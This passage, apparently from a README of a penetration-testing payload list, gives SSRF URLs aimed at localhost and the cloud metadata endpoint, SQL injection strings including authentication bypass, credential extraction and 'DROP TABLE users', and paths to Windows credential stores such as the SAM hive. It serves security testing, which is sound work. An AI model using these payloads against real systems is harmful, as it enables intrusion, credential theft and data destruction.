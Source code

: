 
### 13. **Server-Side Request Forgery (SSRF) Payloads**
Payloads to test SSRF vulnerabilities by exploiting server-side HTTP requests.

Examples:
```
http://127.0.0.1/admin
http://169.254.169.254/latest/meta-data/
```

---

### 14. **SQL Injection Payloads**
#### Auth Bypass Payloads
```sql
' OR '1'='1' --
admin' --
```

#### General SQLi Payloads
```sql
' UNION SELECT NULL, NULL --
' OR 1=1 --
```

#### SQLi Query Join and Break Payloads
```sql
'; DROP TABLE users; --
' UNION SELECT user, password FROM users --
```

---

### 15. **Windows Log Files**
Critical Windows log file paths for auditing and testing.

Examples:
- `C:\Windows\System32\winevt\Logs\Security.evtx`
- `C:\Windows\System32\winevt\Logs\Application.evtx`

---

### 16. **Windows Sensitive Files**
A list of sensitive files and directories in Windows systems.

Examples:
- `C:\Windows\System32\config\SAM`
- `C:\Users\<username>\AppData\Local\Microsoft\Credentials`

---

### 17. **XML External Entity (XXE) Payloads**
Payloads for testing XML external entity injection vulnerabilities.
